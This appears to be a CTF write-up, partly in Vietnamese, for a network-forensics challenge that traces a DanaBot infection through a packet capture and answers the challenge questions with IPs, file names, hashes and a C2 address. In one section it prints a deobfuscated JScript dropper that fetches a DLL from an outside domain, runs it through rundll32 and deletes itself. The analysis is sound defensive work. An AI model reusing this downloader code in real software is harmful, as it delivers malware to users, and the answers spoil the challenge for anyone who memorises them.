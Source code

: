 # Mô tả

The SOC team has detected suspicious activity in the network traffic, revealing that a machine has been compromised. Sensitive company information has been stolen. Your task is to use Network Capture (PCAP) files and Threat Intelligence to investigate the incident and determine how the breach occurred.

Category:

[Network Forensics](https://cyberdefenders.org/blueteam-ctf-challenges/?categories=network-forensics)

Tactics:

[Execution](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=execution)	[Command and Control](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=command-and-control)

Tools:

[Wireshark](https://cyberdefenders.org/blueteam-ctf-challenges/?tools=wireshark)	[VirusTotal](https://cyberdefenders.org/blueteam-ctf-challenges/?tools=virustotal)	[ANY.RUN](https://cyberdefenders.org/blueteam-ctf-challenges/?tools=anyrun)	[Network Miner](https://cyberdefenders.org/blueteam-ctf-challenges/?tools=network-miner)

# Phân tích

## Q1 + Q2

Which IP address was used by the attacker during the initial access?

What is the name of the malicious file used for initial access?

Mở pcap lên thì thấy rằng các conversations trong statistics chỉ là của các máy local với nhau, phần lớn là máy người dùng và dns server. Quay lại pcap thì thấy có một vài GET request đến server `62.173.142.148/login.php` nhưng thay vì  hiện giao diện đăng nhập lại tải một file javascript bị obf, file được lưu thành login.php trên máy người dùng nhưng tên thực tế trên server là `allegato_708.js`

`62.173.142.148`

`allegato_708.js`

## Q3

What is the SHA-256 hash of the malicious file used for initial access?

Trên linux có thể check SH-256 hash bằng lệnh

```bash
sha256sum login.php
```

`847b4ad90b1daba2d9117a8e05776f3f902dda593fb1252289538acf476c4268`

## Q4

Which process was used to execute the malicious file?

[Deobf](https://obf-io.deobfuscate.io/) script js ta được

```javascript
function _0x414360(_0x5c5160) {
  var _0x119065 = '';
  var _0x5a393f = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".length;
  for (var _0x3d45b7 = 0x0; _0x3d45b7 < _0x5c5160; _0x3d45b7++) {
    _0x119065 += "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(Math.floor(Math.random() * _0x5a393f));
  }
  return _0x119065 + ".dll";
}
var _0x48a85a = _0x414360(0xa);
var _0x44bdd9 = new ActiveXObject("Scripting.FileSystemObject").GetSpecialFolder(0x2) + "\\" + _0x48a85a;
var _0x5da57f = WScript.CreateObject("MSXML2.XMLHTTP");
_0x5da57f.Open("GET", "http://soundata.top/resources.dll", false);
_0x5da57f.Send();
if (_0x5da57f.Status == 0xc8) {
  var _0x3c8952 = WScript.CreateObject("ADODB.Stream");
  _0x3c8952.Open();
  _0x3c8952.Type = 0x1;
  _0x3c8952.Write(_0x5da57f.ResponseBody);
  _0x3c8952.Position = 0x0;
  _0x3c8952.SaveToFile(_0x44bdd9, 0x2);
  _0x3c8952.Close();
  var _0x1e16b0 = WScript.CreateObject("Wscript.Shell");
  _0x1e16b0.Run("rundll32.exe /B " + _0x44bdd9 + ",start", 0x0, true);
}
new ActiveXObject("Scripting.FileSystemObject").DeleteFile(WScript.ScriptFullName);
```

Chương trình được sử dụng để chạy script là

`wscript.exe`

## Q5 + Q6

What is the file extension of the second malicious file utilized by the attacker?

What is the MD5 hash of the second malicious file?

Trong script malware đã tải resources.dll từ `http://soundata.top/resources.dll` sử dụng `MSXML2.XMLHTTP` sau đó chạy  bằng `rundll32.exe /B` 

Để tìm MD5 hash ta sử dụng lệnh `md5sum` trong linux

`.dll`

`e758e07113016aca55d9eda2b0ffeebe`

# Resources.dll

[VirusTotal report](https://www.virustotal.com/gui/file/2597322a49a6252445ca4c8d713320b238113b3b8fd8a2d6fc1088a5934cee0e/detection)

Nhìn chung file này khi được gọi sẽ drop 1 file `WndResizerApp.exe` sử dụng một con stealer là `Danabot` để đánh cắp thông tin của người dùng rồi sau đó gửi chúng đến một C2 server `62.173.146.41:443`
